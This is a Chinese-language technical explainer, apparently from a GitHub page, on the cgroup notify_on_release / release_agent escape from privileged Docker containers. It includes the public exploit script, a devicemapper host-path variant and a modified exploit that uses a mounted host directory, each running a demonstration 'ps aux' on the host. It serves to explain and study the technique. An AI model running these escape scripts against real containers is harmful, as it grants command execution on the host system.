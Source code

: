 # notify_on_release逃逸方式原理

## 公开的EXP
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
## notify_on_release与cgroup
既然是notify_on_release的方式，首先了解下notify_on_release机制是什么，了解notify_on_release前就需要先了解cgroup，cgroup的官方定义如下：

> cgroups是Linux内核提供的一种机制，这种机制可以根据需求把一系列系统任务及其子任务整合（或分隔）到按资源划分等级的不同组内，从而为系统资源管理提供一个统一的框架。

在Linux中cgroup的实现形式表现为一个文件系统，可以通过mount -t cgroup看到系统cgroup的挂载情况

![](media/16330951806464/16334143029012.jpg)
可以看到cgroup提供了很多子系统包括cpu、devices、blkio等
![](media/16330951806464/16334144772530.jpg)
以memory子系统为例看下每个子系统包含哪些文件
![](media/16330951806464/16334162215100.jpg)

其中memory开头的文件对内存进行控制包括内存使用量，oom之后的行为等等，除此之外主要了解下一下几个和逃逸相关的文件
* cgroup.procs：罗列所有在该cgroup中的TGID（线程组ID），即线程组中第一个进程的PID。该文件并不保证TGID有序和无重复。写一个TGID到这个文件就意味着把与其相关的线程都加到这个cgroup中
* tasks:罗列了所有在该cgroup中任务的TID，即所有进程或线程的ID。该文件并不保证任务的TID有序，把一个任务的TID写到这个文件中就意味着把这个任务加入这个cgroup中，如果这个任务所在的任务组与其不在同一个cgroup，那么会在cgroup.procs文件里记录一个该任务所在任务组的TGID值，但是该任务组的其他任务并不受影响。
* notify_on_release：0或1，表示是否在cgroup中最后一个任务退出时通知运行release agent，默认情况下是0，表示不运行，看下官方对notify_on_release的解释
  > If the notify_on_release flag is enabled (1) in a cgroup, then whenever the last task in the cgroup leaves (exits or attaches to some other cgroup) and the last child cgroup of that cgroup is removed, then the kernel runs the command specified by the contents of the "release_agent" file in that hierarchy's root directory, supplying the pathname (relative to the mount point of the cgroup file system) of the abandoned cgroup.  This enables automatic removal of abandoned cgroups. The default value of notify_on_release in the root cgroup at system boot is disabled(0).  The default value of other cgroups at creation is the current value of their parents' notify_on_release settings. The default value of a cgroup hierarchy's release_agent path is empty.

  可以简单理解为提供了以下功能：
  如果notify_on_release的值被设置为1，cgroup下所有task结束的时候（最后一个进程结束或转移到其他cgroup），那么内核就会运行root cgroup下release_agent文件中的对应路径的文件，这里还提到内核会为要执行的程序提供一个参数，但实际测试中没有发现有参数传递。
  * release_agent：
  > release_agent, can be used to register the pathname of a program that may be invoked when a cgroup in the hierarchy becomes empty
  
  指明release_agent文件内容应该指定一个可执行文件路径名。这个路径名是宿主机的路径名也就是文件的真实路径，不是在容器中看到的路径，通常用于自动化卸载无用的cgroup。并且整个文件只能存在于root cgroup，如果在下层创建release_agent文件会提示Permission denied无法创建
  
## 利用原理
  通过对这几个文件的理解，基本可以理清利用原理
1. 需要一个可写的cgroup,直接把root cgroup的notify_on_release设置成1显然是不合理的，因为最后一步还需要移除cgroup下的所有进程，所以创建一个子cgroup然后将子cgroup的notify_on_release置为1就不会对原有设置产生影响
  
2. 需要控制一个文件，这个文件有两个特点：
   * 知道这个文件在宿主机路径
   * 在容器中可以修改这个文件内容和执行权限
  
   如果能够知道容器在宿主机上真实路径就可以满足这一要求，在容器写任意一个文件然后拼接容器的真实路径即可，exp中通过读mtab的方式获取真实路径，这个正则是在docker使用overlay方式作为存储驱动时才可以使用，除了overlay方式外还有devicemapper、vfs等，每种存储方式获取真实路径的方式并不相同，以devicemapper为例读取mtab看到的/dev/mapper/下的路径而非在真实访问用的路径但还是可以通过他构造在宿主机上的路径，devicemapper在宿主机上的目录默认是/var/lib/docker/devicemapper/mnt/[id]/rootfs，通过`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`可以获取到对应的id值，最终host_path为:
     ```
   host_path='/var/lib/docker/devicemapper/mnt/'`sed -n 's/\/dev\/mapper\/docker\-[0-9]*:[0-9]*\-[0-9]*\-\(.*\) \/\(.*\)/\1/p' /etc/mtab`'/rootfs'
    ```
  
3. 清空子cgroup下的cgroup.procs中的所有进程，触发release_agent执行写入的命令，这里有一个问题，cgroup.procs看起来和tasks貌似区别不大，可以简单理解成cgroup.procs是进程级别的管理，tasks是进程级别的管理，在实际测试中，修改`sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"`为`sh -c "echo \$\$ > /tmp/cgrp/x/tasks"`也是同样会触发release_agent的
  
## 用处不大的tips
  除了找到容器在宿主机的真实路径外，也是有其他方式的，只满足上面这两个条件很容易可以想到挂载目录，如果以以下方式启动docker
  `docker run -it --cap-add='SYS_ADMIN' -v /tmp:/tmp/host_tmp centos bash`
  宿主机把自己的/tmp目录挂载到容器的/tmp/host_tmp目录，那么就可以借助/tmp/host_tmp完成利用，首先在进入容器时通过mount查看当前容器有哪些挂载
  ![](media/16330951806464/16336741095529.jpg)
可以看到挂载到了/tmp/host_tmp,但是看不到在宿主机上是什么路径

![](media/16330951806464/16336742339526.jpg)
通过`cat /proc/self/mountinfo | grep /tmp/host_tmp`可以确定宿主机的/tmp以rw方式挂载到了/tmp/host_tmp，修改exp如下：
```shell
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "/tmp/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /tmp/host_tmp/cmd
echo "ps aux > /tmp/output" >> /tmp/host_tmp/cmd
chmod a+x /tmp/host_tmp/cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## 参考文档
1. https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt
2. [cgroups(7) - Linux manual page](https://man7.org/linux/man-pages/man7/cgroups.7.html)
3. [PID/TID/TGID参考](https://www.cnblogs.com/wipan/p/9488318.html)
4. [Docker存储驱动程序](https://docs.docker.com/storage/storagedriver/)
5. [procs 和tasks 的区别](http://linux.laoqinren.net/posts/hierarchy-without-controller-group/#procs-%E5%92%8Ctasks-%E7%9A%84%E5%8C%BA%E5%88%AB)